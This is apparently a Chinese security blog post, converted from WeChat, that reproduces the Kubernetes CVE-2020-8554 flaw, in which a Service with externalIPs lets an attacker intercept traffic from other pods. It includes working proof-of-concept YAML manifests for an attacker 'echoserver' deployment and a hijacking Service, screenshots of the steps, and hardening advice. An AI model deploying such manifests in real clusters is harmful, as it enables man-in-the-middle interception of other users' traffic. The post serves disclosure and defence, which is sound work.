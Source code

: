 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nFMK5pLKtR2MDJFGppFypw)

漏洞简介
----

Kubernetes 存在安全漏洞，该漏洞于 2020 年 12 月 8 日在 Kubernetes 的安全通告中被披露。漏洞编号：CVE-2020-8554。如果攻击者可以创建或编辑服务和容器，则此安全问题使攻击者能够拦截来自群集中其他容器（或节点）的流量。攻击者可利用该漏洞通过 Kubernetes 上的 LoadBalancer 或 ExternalIP 充当中间人，以便在会话中读取或写入数据。值得注意的是，该漏洞披露最初是在大约一年前发现的，它揭示了一个影响所有 Kubernetes 版本的设计缺陷，并且目前还没有缓解该问题的软件更新。

影响范围
----

kubernetes 所有版本

背景
--

长期修复方案仍未确定，官网可能从以下四个方面入手修复该漏洞

1）决定停止支持外部 IP，弃用并最终删除该功能  
2）尝试重新设计外部 IP 功能，弃用旧行为并管理向新功能的迁移  
3）接受当前状态，并将 externalip-webhook 升级为内置准入控制器  
4）接受当前状态，并支持 externalip-webhook 作为长期解决方案

为了印证该漏洞的影响，我们对该漏洞进行了复现与解析。

原理
--

集群内某些服务绑定了某些本地网络以外的 IP，导致集群内发往这些 ip 的数据包被 k8s 路由到以上的服务，而非默认网关中。

复现
--

### 准备环境

#### 集群环境

准备以下环境，其中 ubuntu 为主节点，ubuntu2004-0 和 ubuntu1804-0 工作节点  
![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3YvnDzVEice0q3Cprmf6vKfEeWdxUxiamiag73h5qPvjUsoYZTQSprKFIjLn3rTZFkz0TGRPZibHH7QPg/640?wx_fmt=png)

#### yaml 文件

##### test-nettools.yaml

test-nettools.yaml 为工具容器的 yaml 文件，用于测试 http 访问结果。

```
apiVersion: v1kind: Podmetadata:  name: test-nettoolsspec:  containers:    - name: nettools      image: travelping/nettools      command: [ "/bin/sleep", "3600" ]
```

##### echoserver.yaml

echoserver.yaml 为攻击者创建 Deployment 的 yaml 文件，用于在集群内接收被劫持流量

```
apiVersion: v1kind: Namespacemetadata:  name: kubeproxy-mitm---apiVersion: apps/v1kind: Deploymentmetadata:  name: echoserver  namespace: kubeproxy-mitmspec:  replicas: 1  selector:    matchLabels:      app: echoserver  template:    metadata:      labels:        app: echoserver    spec:      containers:      - image: gcr.io/google_containers/echoserver:1.10        name: echoserver        ports:        - name: http          containerPort: 8080        - name: https          containerPort: 8443
```

##### mitm-externalip.yaml

mitm-externalip.yaml，为部署 service 的 yaml 文件, 用以部署劫持服务。

```
apiVersion: v1kind: Servicemetadata:  name: mitm-externalip  namespace: kubeproxy-mitmspec:  ports:  - name: http    port: 80    targetPort: 8080  - name: https    port: 443    targetPort: 8443  selector:    app: echoserver  type: ClusterIP  externalIPs:    - 192.168.254.116
```

##### web 服务

kali.dosec 是集群外内网 web 服务

### 复现过程

#### 1）test-nettools 容器默认在 default namespace 下运行

之后我们会模拟劫持前后使用 test-nettools 容器访问 kali.dosec 这个 web 服务，来观测劫持前后的变化  
![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3YvnDzVEice0q3Cprmf6vKfEdboh9uSrOaLuFiblT1MmqldyHZBhiblBqro5ricqeewWfH2K7vRyZ4OicQ/640?wx_fmt=png)

#### 2）记录 kali.dosec 的 ip 地址

![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3YvnDzVEice0q3Cprmf6vKfEeofh5V1HIx53CtKoVL6kzcF8dUoiaVRF1tI2umOrJBobRwibRw4meD8g/640?wx_fmt=png)

#### 3）记录流量被劫持前，test-nettools 容器访问 kali.dosec 的回显

kali.dosec 是内部搭建的一个 web 测试站点，该站点默认回显内容为 hello,world. This is kali.dosec  
![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3YvnDzVEice0q3Cprmf6vKfESeCfFDXIbtuxHUKus8vMJ3PIMNt2eCBkPgAW8nz6T5GlQXa845ROlg/640?wx_fmt=png)

#### 4）修改，部署 poc

![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3YvnDzVEice0q3Cprmf6vKfEOIZYzxUjriaTicdGY1xiboK01Q8FA5cAicWIzA3Hqw16OZXMDq35Veiabiaw/640?wx_fmt=png)

#### 5）验证部署状态

![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3YvnDzVEice0q3Cprmf6vKfE0vIFoq2BPUfaDOgcA1VYCqeBkE9R8Cu6y8g6VYs8wVrk2MrnpTDZkg/640?wx_fmt=png)

#### 6）利用验证

test-nettools 访问 kali.dosec 但很明显应答是由 echoserver 做出的，即劫持成功，漏洞利用验证通过  
![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3YvnDzVEice0q3Cprmf6vKfEd7NPUAm3y4D71KOUQXTGQKa3Txcce0FCTyBcvDyBlw8SdKRzJoTfBQ/640?wx_fmt=png)

### 视频演示

漏洞分析  

-------

总体来说，该漏洞的成因是 Kubernetes 的设计缺陷。利用该漏洞至少需要 RBAC 权限才能创建，更新或修补服务资源。尤其是：  
1、能够创建 ClusterIP 服务并设置 spec.externalIPs 字段的攻击者可以拦截到该 IP 的流量。  
2、能够修补 LoadBalancer 服务 status.loadBalancer.ingress.ip 的 status.loadBalancer.ingress.ip 字段的攻击者可以拦截到该 IP 的流量。

加固建议
----

1）关注官方对该问题的修复，参考连接如下:  
https://github.com/kubernetes/kubernetes/issues/97110

2) 对 LoadBalancer 和 ExternalIP 进行限制  
参考连接为：https://github.com/kubernetes-sigs/externalip-webhook

下期预告
----

这可能是你看到的 2020 年的封笔之作了，所以记得点赞、评论、转发，一箭三连，突破 3000 才有下期。

![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3bW732RU7NAiaZc4JT6DxmZyUNeZGuxDkFCEEStghYzbBh4Va87vPYuw6llsvJzAmVg3I2f9icYTcKA/640?wx_fmt=png)